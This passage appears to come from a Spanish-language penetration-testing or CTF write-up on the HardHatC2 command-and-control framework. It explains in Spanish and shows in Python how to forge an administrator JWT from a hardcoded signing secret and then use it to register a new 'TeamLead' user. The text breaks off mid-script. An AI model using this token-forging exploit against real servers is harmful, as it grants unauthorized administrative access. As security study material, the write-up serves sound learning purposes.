 ##### Generación del JWT
```python
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
```
- Crea un payload con privilegios de administrador
- Establece una fecha de expiración de 28 días
- Incluye claims específicos para autenticación

##### Creación de Usuario
```python
burp0_url = f"https://{rhost}/Login/Register"
burp0_json = {
  "password": "caden64",
  "role": "TeamLead",
  "username": "caden64"
}
```
- Usa el JWT generado para crear un nuevo usuario
- Establece el rol como "TeamLead"
- Define credenciales para el nuevo usuario

#### Ejemplo 

```bash
import jwt
import datetime
import uuid
import requests

rhost = '127.0.0.1:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
```
